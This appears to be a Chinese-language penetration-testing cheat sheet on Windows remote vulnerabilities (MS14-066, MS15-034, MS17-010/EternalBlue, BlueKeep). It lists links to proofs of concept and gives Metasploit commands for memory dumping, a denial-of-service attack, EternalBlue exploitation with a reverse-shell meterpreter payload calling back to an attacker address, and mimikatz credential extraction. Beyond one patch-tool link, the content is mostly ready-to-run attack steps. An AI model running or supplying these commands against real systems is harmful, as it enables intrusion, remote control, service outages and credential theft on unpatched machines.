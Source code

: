 **MS14-066 & CVE-2014-6321**
- POC | Payload | exp
    - [anexia-it/winshock-test](https://github.com/anexia-it/winshock-test)

**MS15-034 & CVE-2015-1635**
- POC | Payload | exp
    - [MS15-034 Checker](https://pastebin.com/ypURDPc4)

- 相关文章
    - [MS15-034/CVE-2015-1635 HTTP远程代码执行漏洞分析](http://blogs.360.cn/post/cve_2015_6135_http_rce_analysis.html)

- MSF 模块
    ```bash
    use auxiliary/scanner/http/ms15_034_http_sys_memory_dump    # 读取服务器内存数据
    use auxiliary/dos/http/ms15_034_ulonglongadd    # 进行 dos 攻击
    ```

**CVE-2017-0143 - CVE-2017-0148 && MS17-010**
- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/smb/smb_ms17_010
    set rhosts [ip]
    run

    # 命令执行,不回弹
    use auxiliary/admin/smb/ms17_010_command
    set command whoami

    # 使用 payload 连上去
    use exploit/windows/smb/ms17_010_eternalblue
    set payload windows/x64/meterpreter/reverse_tcp
    set lhost [ip]      # 设置回弹地址
    set rhosts [ip]
    run

    # msf 下加载 mimikatz 模块
    load mimikatz
    kerberos
    ```

- 修复工具
    - ["永恒之蓝"勒索蠕虫漏洞修复工具](https://www.qianxin.com/other/wannacryfix)

**bluekeep & CVE-2019-0708**
- 相关文章
    - [RDP Stands for "Really DO Patch!" - Understanding the Wormable RDP Vulnerability CVE-2019-0708](https://securingtomorrow.mcafee.com/other-blogs/mcafee-labs/rdp-stands-for-really-do-patch-understanding-the-wormable-rdp-vulnerability-cve-2019-0708/)
    - [worawit/CVE-2019-0708](https://github.com/worawit/CVE-2019-0708/blob/master/NOTE.md)
